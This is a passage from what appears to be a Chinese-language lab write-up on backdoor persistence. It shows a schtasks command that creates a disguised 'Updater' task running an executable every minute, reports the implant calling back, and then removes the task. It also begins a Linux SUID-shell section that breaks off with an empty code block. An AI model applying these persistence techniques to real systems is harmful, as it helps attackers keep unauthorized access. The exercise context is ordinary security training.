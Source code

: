 ```bash
 schtasks /Create /tn Updater /tr C:\Users\Administrator\Desktop\5555.exe /sc minute /mo 1 #每1分钟自动执行7764.exe
```
![Alt text](image-107.png)   
等待执行后，成功上线。   
![Alt text](image-108.png)   
删除计划任务。   
```bash
 schtasks /delete /tn Updater
```  
![Alt text](image-109.png)
## 2. Linux：任选两种方法实现后门权限维持。
### 2.1 SUID Shell
SUID Shell是一种可用于以拥有者权限运行的shell。   
首先添加一个名为 `guest` 的普通用户。   
```bash
```